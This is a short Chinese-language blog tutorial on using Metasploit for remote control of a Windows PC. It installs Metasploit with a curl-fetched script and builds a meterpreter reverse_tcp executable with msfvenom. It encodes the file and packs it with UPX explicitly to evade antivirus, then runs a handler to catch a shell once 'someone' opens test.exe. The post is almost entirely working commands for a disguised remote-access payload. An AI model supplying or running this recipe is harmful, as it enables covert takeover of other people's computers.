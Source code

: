 title: 使用Metasploit远控你的电脑
categories: 教程
tags: [Metasploit,远控]
date: 2020-09-15 19:31:00
toc: true
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了
<!-- more -->
# 生成一个远控程序
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.exe

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```
 - 使用upx加壳做免杀处理，命令如下
```bash
#安装upx
https://github.com/upx/upx/releases/tag/v3.95
#加壳
upx -9 test.exe
```
# 开始远控
- 启动Metasploit
```bash
msfconsole
```
- 在msf下输入
```bash
use exploit/multi/handler
```
- 查看需要设置的参数
```bash
show options
```
- 设置**payload**
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
- 设置**LHOST，LPORT**
```bash
set lhost 10.0.0.155
set lport 52130
```
- 启动程序
```bash
exploit
```
如有人打开**test.exe**，则会出现等待输入界面
```bash
meterpreter >
```
现在我们可以输入`help`来看具体可以远程做些什么了

#我是废物